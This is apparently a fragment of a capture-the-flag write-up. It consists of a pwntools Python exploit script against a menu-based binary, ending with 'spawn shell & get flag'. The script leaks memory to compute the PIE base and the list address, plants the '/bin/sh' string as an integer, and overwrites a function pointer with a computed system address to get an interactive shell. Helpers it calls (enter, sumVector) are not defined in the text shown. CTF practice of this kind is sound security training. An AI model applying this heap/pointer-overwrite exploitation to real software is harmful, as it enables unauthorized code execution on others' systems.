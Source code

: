 ```python
def printsum():
    io.sendlineafter(b'> ', b'3')
    
def loadfav(idx):
    io.sendlineafter(b'> ', b'4')
    io.sendlineafter(b'Index', idx)
    
def printfav(idx):
    io.sendlineafter(b'> ', b'5')
    io.sendlineafter(b'Index', idx)
    
def addfav(idx):
    io.sendlineafter(b'> ', b'6')
    io.sendlineafter(b'Index', idx)
    
enter(b'0', b'1', b'1')
enter(b'1', b'1', b'1')
enter(b'2', b'1', b'1')

sumVector(b'2')
loadfav(b'2')
printfav(b'2')

io.recvuntil(b'v = [')

leak=io.recvline().strip(b']\n').split()
# print(leak)

pie=int(leak[0])-0x35d
log.info('pie_base :' + hex(pie))

v_list=int(leak[1])-48
log.info('v_list array :' + hex(v_list))

sum=v_list+64
faves=sum+0x18

log.info('sum :' + hex(sum))
log.info('faves :' + hex(faves))

w1n=pie+0x0000000000009E4
system=pie+0x100
log.info('w1n :' + hex(w1n))
log.info('system :' + hex(system))

bin_sh=0x68732f6e69622f

enter(b'0', str(bin_sh).encode(), str(bin_sh).encode())
enter(b'3',str(v_list+8).encode(), str(v_list+8).encode())

# enter(b'1', str(w1n).encode(), str(w1n).encode())
enter(b'1', str(system).encode(), str(system).encode())

printsum()

io.interactive()
```
spawn shell & get flag:
